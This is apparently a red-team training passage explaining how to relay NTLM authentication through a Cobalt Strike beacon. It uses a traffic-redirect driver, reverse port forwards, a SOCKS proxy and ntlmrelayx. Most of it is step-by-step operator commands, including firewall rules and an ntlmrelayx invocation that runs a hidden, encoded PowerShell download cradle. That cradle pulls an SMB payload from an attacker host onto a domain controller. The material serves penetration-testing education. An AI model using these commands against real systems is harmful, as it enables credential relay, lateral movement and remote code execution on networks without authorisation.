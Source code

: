 During an on-prem pentest, NTLM relaying with tools like [Responder](https://github.com/lgandx/Responder) and [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx) is trivial. However, it's a different story with this style of red team assessment, not least because we can't typically run Python tools on Windows. Port 445 is always bound and in use by Windows - even local admins can't arbitrarily redirect traffic bound to this port or bind another tool to this port.

It's still possible to do with CS but requires the use of multiple capabilities simultaneously:

1. A [driver](https://reqrypt.org/windivert.html) to redirect traffic destined for port 445 to another port (e.g. 8445) to bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to. This tunnels the SMB traffic over the C2 channel to the Team Server.
3. The tool of choice (e.g. ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

The flow looks something like this:

1. Origin -> Beacon: WinDivert: 445
2. Beacon: rportfwd: 8445
3. TeamServer: ntlmrelayx
4. TeamServer: socks
5. Beacon -> Target: socks

1: Ensure pre-requisites are in place before launching the actual attack. Obtain a SYSTEM beacon on the machine to capture SMB traffic on.
2: Allow those ports inbound on the Windows firewall:

    beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
    beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

3: Start two reverse port forwards: one for the SMB capture, the other for a PowerShell download cradle:

    beacon> rportfwd 8445 localhost 445
    beacon> rportfwd 8080 localhost 80

4: Start a SOCKS proxy that ntlmrelayx can use to send relay responses back into the network:

    beacon> socks 1080

5: Start ntlmrelayx.py listening for incoming connections on the Team Server. The -c parameter executes an arbitrary command on the target after authentication has succeeded:

    attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAH...'

* 10.10.122.10 is the IP address of dc-2.dev.cyberbotic.io (target).
* The encoded command is a download cradle pointing at http://10.10.123.102:8080/b, and /b is an SMB payload.

[PortBender](https://github.com/praetorian-inc/PortBender) is a reflective DLL and aggressor script to help relaying through Cobalt Strike. It requires that the driver be located in the current working directory of the Beacon.  It makes sense to use C:\Windows\System32\drivers since this is where most Windows drivers go.
